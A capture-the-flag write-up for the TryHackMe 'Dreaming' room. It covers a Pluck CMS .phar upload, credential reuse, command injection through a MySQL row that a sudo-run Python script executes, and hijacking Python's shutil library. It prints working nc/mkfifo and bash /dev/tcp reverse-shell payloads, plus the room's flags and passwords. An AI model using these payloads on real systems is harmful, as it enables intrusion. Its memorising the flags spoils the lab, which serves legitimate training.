







# Dreaming - TryHackMe Writeup

While the king of dreams was imprisoned, his home fell into ruins. Can you help Sandman restore his kingdom?

[](https://tryhackme.com/room/dreaming)
[](#)

**Key Concepts / Skills:**

- CMS Vulnerability Exploitation (Pluck CMS 4.7.13 `.phar` upload)
- MySQL Database Enumeration & Command Injection
- Python Library Hijacking (`shutil.py`)
- Sudo Privilege Escalation

---

## Table of Contents

- [Enumeration](#enumeration)
- [Initial Access (Pluck CMS)](#initial-access-pluck-cms)
- [Privilege Escalation to Lucien](#privilege-escalation-to-lucien)
- [Privilege Escalation to Death](#privilege-escalation-to-death)
- [Privilege Escalation to Morpheus](#privilege-escalation-to-morpheus)

---

## Enumeration

We start with an Nmap / RustScan port scan against the target machine:

```plain
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two open ports on the given server

- `22 -- ssh`
- `80 -- http`

To find any directory which can be of our use we may use `gobuster` or `nikto`, Here's output of both

> `Nikto`

```bash
❯ nikto -h http://10.48.141.179:80 -nointeractive
+ [750500] /app/: Directory indexing found.
+ [001563] /app/: This might be interesting.
```

```bash
❯ gobuster dir -u http://10.48.141.179:80/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,html,bak,js,txt -t 50
===============================================================
app                  (Status: 301) [Size: 312] [--> http://10.48.141.179/app/]
index.html           (Status: 200) [Size: 10918]
index.html           (Status: 200) [Size: 10918]
server-status        (Status: 403) [Size: 278]
Progress: 28500 / 28500 (100.00%)
===============================================================
Finished
===============================================================
```

Navigating to `http://10.48.141.179/app/`, we discover **Pluck CMS 4.7.13**.



> [!NOTE]
> Pluck 4.7.13 is a lightweight PHP-based Content Management System.

---

## Initial Access (Pluck CMS)

Clicking on the `admin` link redirects to the login page:



When we click on the `admin` we're redirected to the login page.



Testing default credentials (`password`) successfully grants admin access.



While searching for the exploit for `pluck-4.7.13` I got the know that the cms restricts from uploading any type of script file but we can upload a file with and extension `.phar` as this exploit suggests on Exploit Database

> https://www.exploit-db.com/exploits/49909

Now, we need to create a reverse shell and change its extension to `shell.phar` which we'll upload and gain a reverse shell for further movement.

> I am using the `PHP Pentest Monkey` as reverse shell script you may use any you find usable!

change the extension to `.phar`

```bash
❯ cp rev-shell.php rev-shell.phar
```

Upload the `rev-shell.phar` file in the `manage files section`.



```bash
❯ nc -nvlp 1337
```

We can now click on the magnifier icon to get to the file OR `http://<target-ip>/app/uploads/files/rev-shell.phar`

> make sure to turn on the `nc` listener on your attackbox



Let's make the shell interactive using python!

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-48-141-179:/$ export TERM=xterm-256color
export TERM=xterm-256color
www-data@ip-10-48-141-179:/$ ls
ls
bin   etc             lib    libx32      mnt   root  snap      sys  var
boot  home            lib32  lost+found  opt   run   srv       tmp
dev   kingdom_backup  lib64  media       proc  sbin  swap.img  usr
www-data@ip-10-48-141-179:/$ ^Z
zsh: suspended  nc -nvlp 1337

❯ stty raw -echo;fg
[1]  + continued  nc -nvlp 1337
                               ls
bin   etc             lib    libx32      mnt   root  snap      sys  var
boot  home            lib32  lost+found  opt   run   srv       tmp
dev   kingdom_backup  lib64  media       proc  sbin  swap.img  usr
www-data@ip-10-48-141-179:/$
```

There are four users in `/home` directory

```bash
www-data@ip-10-48-141-179:/home$ ls
death  lucien  morpheus  ubuntu
```

After some enumeration we can see two python files in the `/opt` directory with permissions as given

```bash
www-data@ip-10-48-141-179:/opt$ ls -lah
total 16K
drwxr-xr-x  2 root   root   4.0K Aug 15  2023 .
drwxr-xr-x 20 root   root   4.0K Sep  2 12:26 ..
-rwxrw-r--  1 death  death  1.6K Aug 15  2023 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7  2023 test.py
```

Both files are readable by our current user but we can only execute `test.py` which has the following contents

```python
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
```

We can see the above file contains a password `HeyLucien#@1999!` which maybe the password for many logins for `lucien`, thus let's try the same password on `ssh` login.

And yeah! we got logged in!

```bash
❯ ssh lucien@10.48.141.179
The authenticity of host '10.48.141.179 (10.48.141.179)' can't be established.
ED25519 key fingerprint is: SHA256:0+8lCtyVBpu1Apo9ZdQiW2EcggsSU4ay9Jb6Nxj5g3M
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.48.141.179' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
                                  {} {}
                            !  !  II II  !  !
                         !  I__I__II II__I__I  !
                         I_/|--|--|| ||--|--|\_I
        .-'"'-.       ! /|_/|  |  || ||  |  |\_|\ !       .-'"'-.
       /===    \      I//|  |  |  || ||  |  |  |\\I      /===    \
       \==     /   ! /|/ |  |  |  || ||  |  |  | \|\ !   \==     /
        \__  _/    I//|  |  |  |  || ||  |  |  |  |\\I    \__  _/
         _} {_  ! /|/ |  |  |  |  || ||  |  |  |  | \|\ !  _} {_
        {_____} I//|  |  |  |  |  || ||  |  |  |  |  |\\I {_____}
   !  !  |=  |=/|/ |  |  |  |  |  || ||  |  |  |  |  | \|\=|-  |  !  !
  _I__I__|=  ||/|  |  |  |  |  |  || ||  |  |  |  |  |  |\||   |__I__I_
  -|--|--|-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |--|--|-
  _|__|__|   ||_|__|__|__|__|__|__|| ||__|__|__|__|__|__|_||-  |__|__|_
  -|--|--|   ||-|--|--|--|--|--|--|| ||--|--|--|--|--|--|-||   |--|--|-
   |  |  |=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |  |  |
   |  |  |-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |  |  |
   |  |  |=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||-  |  |  |
  _|__|__|   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |__|__|_
  -|--|--|=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |--|--|-
  _|__|__|   ||_|__|__|__|__|__|__|| ||__|__|__|__|__|__|_||-  |__|__|_
  -|--|--|=  ||-|--|--|--|--|--|--|| ||--|--|--|--|--|--|-||=  |--|--|-
  jgs |  |-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||-  |  |  |
 ~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^~~~~~~~~~~~

W e l c o m e, s t r a n g e r . . .
lucien@10.48.141.179's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 02 Sep 2026 01:33:30 PM UTC

  System load:  0.02               Processes:             122
  Usage of /:   54.3% of 11.21GB   Users logged in:       0
  Memory usage: 79%                IPv4 address for ens5: 10.48.141.179
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Mon Aug  7 23:34:46 2023 from 192.168.1.102
lucien@ip-10-48-141-179:~$ id
uid=1000(lucien) gid=1000(lucien) groups=1000(lucien),4(adm),24(cdrom),30(dip),46(plugdev)
```

Thus we got the flag for `lucien`

```bash
lucien@ip-10-48-141-179:~$ cat lucien_flag.txt
THM{TH3_L1BR4R14N}
```

> [!Flag]
> THM{TH3_L1BR4R14N}

We can see the user `lucien` can execute the `getDeath.py` file without any password require as user `death`....

```bash
lucien@ip-10-48-141-179:~$ sudo -l
Matching Defaults entries for lucien on ip-10-48-141-179:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on ip-10-48-141-179:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

We can see, we were able to execute the file

```bash
lucien@ip-10-48-141-179:/home/death$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician
```

But now we need to check what is in the `getDreams.py` file as we still cannot add our code to get the shell in that file.

Thus like previously, we read the file through `/opt`

```python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"
        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```

From the given code we can conclude that the given script connects to the `mysql` via `death` users creds and fetches `dreamer` and `dreams` from the DB.

- `query = "SELECT dreamer, dream FROM dreams;"` -- Query
- `dreamer, dream = dream_info` -- dreamer and dream are taken from `dream_info`
- `command = f"echo {dreamer} + {dream}"` -- then they are `echoed` on the terminal.

So if we can get into the DB and change the dream to something which can change us to user `death` we can get the `death` users flag.

Let's try to connect to `mysql` via `luciens` creds.
But we need to find the password for `lucien` for `mysql`,

So, if our theory is true then `lucien` must've already being connecting to `mysql` via his creds so let's search the bash history of `lucien`

```bash
lucien@ip-10-48-141-179:/home/death$ cat $HOME/.bash_history | grep  mysql
mysql -u lucien -plucien42DBPASSWORD
cat .mysql_history
rm .mysql_history
mysql -u lucien -p
mysql -u lucien -p
mysql -u root -p
lucien@ip-10-48-141-179:/home/death$
```

And yup we got the creds.

When in `mysql` there's a database named `library` which contains a table named `dreams`.

```bash
mysql> use library;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)
```

With current values as:

```bash
mysql> SELECT * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
4 rows in set (0.00 sec)
```

Here we can add another row/record with values as ('D3ath, rev-shell'), like given below

> ```sql
> INSERT INTO dreams (dreamer, dream) VALUES ('D3ath', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f)');
> ```

Which will return OK if done correctly!

```sql
Query OK, 1 row affected (0.02 sec)
```

Now we have our reverse shell entry at the bottom which will be executed once we run the `getDreams.py` file.

```sql
+---------+---------------------------------------------------------------------------------------+
| dreamer | dream                                                                                 |
+---------+---------------------------------------------------------------------------------------+
| Alice   | Flying in the sky                                                                     |
| Bob     | Exploring ancient ruins                                                               |
| Carol   | Becoming a successful entrepreneur                                                    |
| Dave    | Becoming a professional musician                                                      |
| D3ath   | $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MY_IP 4444 >/tmp/f) |
+---------+---------------------------------------------------------------------------------------+
5 rows in set (0.00 sec)
```

We got the shell as user `death`

```bash
❯ nc -nvlp 4444
listening on [any] 4444 ...
connect to [MY_IP] from (UNKNOWN) [10.48.141.179] 45902
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
death@ip-10-48-141-179:~$ ls
ls
death_flag.txt  getDreams.py
death@ip-10-48-141-179:~$ whoami
whoami
death
death@ip-10-48-141-179:~$ cat death_flag.txt
THM{1M_TH3R3_4_TH3M}
```

Hence we got our next flag which is:

> [!Flag] Flag for Death
> THM{1M_TH3R3_4_TH3M}

While checking `morpheus` dir. we can see one python file named `restore.py` which has the given contents:

```python
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

Now after searching through google I found that the user `morpheus` is running the file `restore.py` (live).

```bash
CMD: UID=1002  PID=5981   | /usr/bin/python3.8 /home/morpheus/restore.py
```

And as the python code is importing things from `shutil` library let's check if the given library is writable or not!

```bash
death@ip-10-48-141-179:~$ find / -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/home/death/*" -writable 2>/dev/null
...
[verbose]
...
/usr/lib/python3.8/shutil.py
/opt/getDreams.py
```

Thus we can edit `/usr/lib/python3.8/shutil.py` let's append our reverse shell

```reverse-shell
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/YOUR_IP/4445 0>&1'\")" > /usr/lib/python3.8/shutil.py
```

And we got the shell....



```bash
bash: cannot set terminal process group (1600): Inappropriate ioctl for device
bash: no job control in this shell
morpheus@ip-10-49-137-151:~$ id
id
uid=1002(morpheus) gid=1002(morpheus) groups=1002(morpheus),1003(saviors)
morpheus@ip-10-49-137-151:~$ whoami
whoami
morpheus
morpheus@ip-10-49-137-151:~$
```

Let's get the final flag

```bash
morpheus@ip-10-49-137-151:~$ cat morpheus_flag.txt
cat morpheus_flag.txt
THM{DR34MS_5H4P3_TH3_W0RLD}
```

> [!flag] Final Flag
> THM{DR34MS_5H4P3_TH3_W0RLD}
